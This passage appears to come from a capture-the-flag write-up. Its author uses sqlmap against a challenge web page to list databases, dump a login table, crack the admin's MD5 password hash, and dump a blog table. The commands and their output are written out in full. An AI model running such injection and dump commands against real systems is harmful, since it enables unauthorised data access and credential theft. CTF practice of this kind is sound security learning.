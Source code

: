   * `http://175.119.158.137:9242/f00885da9ad9ad5fcccaa8fc1217e3ae/read.php?id=1`

Not usually thinking this would lead to too much, I asked SQLMap to probe it a little bit for me and to my surprise it quickly identified the link WAS vulnerable in a trivial manner. We used SQLMap to map the database and pull data at our leisure:

We asked for the list of databases first:



```
sqlmap -u 'http://175.119.158.137:9242/ f00885da9ad9ad5fcccaa8fc1217e3ae/read.php?id=1' --dbs
...
available databases [2]:
[*] blog_db
[*] information_schema
```

Cool, we then go on to enumerate the tables and then fields. We can recover the hashed password this way:

```
sqlmap -u 'http://175.119.158.137:9242/ f00885da9ad9ad5fcccaa8fc1217e3ae/read.php?id=1' --tables -D blog_db
...
Database: blog_db
[2 tables]
+-------+
| blog  |
| login |
+-------+
```

Login sounds juicy we might find our Admin's creds there?

```
sqlmap -u 'http://175.119.158.137:9242/ f00885da9ad9ad5fcccaa8fc1217e3ae/read.php?id=1' -D blog_db -T login --dump

...
Database: blog_db
Table: login
[1 entry]
+--------------------------------------------+--------+
| pass                                       | user   |
+--------------------------------------------+--------+
| 70e76a15da00e6301ade718cc9416f79           | Admin  |
+--------------------------------------------+--------+
```

Well the hashed version, we crack this md5 and found the password is just "adminpw". So what else do we need? We need something called a "token" but yet we don't even know how that was generated so we need to dig deeper. I decide to dump the blog table next:

```
sqlmap -u 'http://175.119.158.137:9242/ f00885da9ad9ad5fcccaa8fc1217e3ae/read.php?id=1' -D blog_db -T blog --dump
...
+----+-----------------------------------------+--------+----------------------+---------+------------+------------------------------------------------------------------------------------------------------+
| id | file                                    | type   | title                | writer  | datetime   | contents                                                                                             |
+----+-----------------------------------------+--------+----------------------+---------+------------+------------------------------------------------------------------------------------------------------+
| 0  | <a href="down.php?fn=poem.jpg">down</a> | hidden | Secret File          | Admin   | 2016-03-09 | <p>Once More...</p>                                                                                  |
```